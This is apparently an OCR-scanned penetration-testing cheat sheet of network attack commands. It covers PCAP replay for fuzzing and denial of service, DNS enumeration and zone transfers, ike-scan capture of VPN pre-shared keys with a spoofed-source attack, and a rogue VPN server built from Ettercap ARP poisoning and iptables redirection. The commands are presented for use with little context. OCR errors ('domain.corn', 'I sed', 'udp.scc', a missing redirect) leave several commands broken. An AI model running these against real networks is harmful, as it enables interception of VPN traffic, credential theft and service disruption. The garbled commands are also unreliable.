 ### Check Reply PCAP

```text
file2cable -i eth0 -f file.pcap
```

### Checking Reply packets \(FUZZ \| Dos\)

```text
tcpreplay --topspeed --loop=O --intf=eth0 .pcap_file_to replay rnbps=10|100|1000
```

### DNSRecon command

```text
Reverse lookup for IP range:
./dnsrecon.rb -t rvs -i 192.1.1.1,192.1.1.20
Retrieve standard DNS records:
./dnsrecon.rb -t std -d domain.corn
Enumerate suborders:
./dnsrecon.rb -t brt -d domain.corn -w hosts.txt
DNS zone transfer:
./dnsrecon -d domain.corn -t axfr
```

### reverse dns lookup operation and checking the output with nmap

```text
nmap -R -sL -Pn -dns-servers dns svr ip range | awk '{if( ($1" "$2"
"$3)=="Nmap scan report")print$5" "$6}' | sed 's/(//g' I sed 's/)//g'
dns.txt
```

## VPN

### Write psk on the file

```text
ike-scan -M -A vpn ip -P file
```

### attack vpn server

```text
ike-scan -A -t 1 --sourceip= spoof ip dst ip
```

### Fiked - Create fake vpn server


```text
Must know the VPN group name a~d pre-shared key;
1. Ettercap filter to drop IPSEC traffic (UDP port 500)
   if(ip.proto == UDP && udp.scc == 500) {
      kill();
      drop();
      msg (" UDP packet dropped ") ;
2. Compile filter
   etterfilter udpdrop.filter -o udpdrop.ef
3. Start Ettercap and drop all IPSEC ~raffic
   #ettercap -T -g -M arp -F udpdrop.ef // //
4. Enable IP Forward
   echo "1" /proc/sys/net/ipv4/ip_forward
5. Configure IPtables to port forward to Fiked server
    iptables -t nat -A PREROUTING -p udp -I eth0 -d VPN Server IP -j
   DNAT - - to Attacking Host IP
```